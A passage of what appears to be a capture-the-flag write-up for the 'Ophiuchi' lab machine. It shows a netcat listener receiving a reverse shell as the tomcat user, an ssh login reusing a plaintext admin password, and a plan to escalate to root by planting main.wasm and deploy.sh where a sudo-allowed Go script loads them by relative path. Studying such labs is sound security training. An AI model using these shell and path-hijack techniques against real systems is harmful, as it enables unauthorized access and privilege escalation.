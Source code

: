 ```console
└─╼$ sudo rlwrap nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.227] 32936
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
uname -a
Linux ophiuchi 5.4.0-51-generic #56-Ubuntu SMP Mon Oct 5 14:28:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

**Other methods:** the admin password for tomcat is also for su and ssh

- `su admin -`
- `ssh admin@$IP`

```console
└─╼$ sshpass -p 'whythereisalimit' ssh admin@$IP
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-51-generic x86_64)
...
Last login: Tue Jan 30 09:38:27 2024 from 10.10.14.14
admin@ophiuchi:~$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
```

### admin -> root

- enum sudo

```console
admin@ophiuchi:~$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

- **code audit**
  - `/opt/wasm-functions/index.go`
  - `/opt/wasm-functions/deploy.sh`
  - `/opt/wasm-functions/main.wasm`
  - go script to load main.wasm -> if info function returns 1 -> execute deploy.sh
  - all these two file are used **relative** path => create my own main.wasm and deploy.sh => execute go script in that location
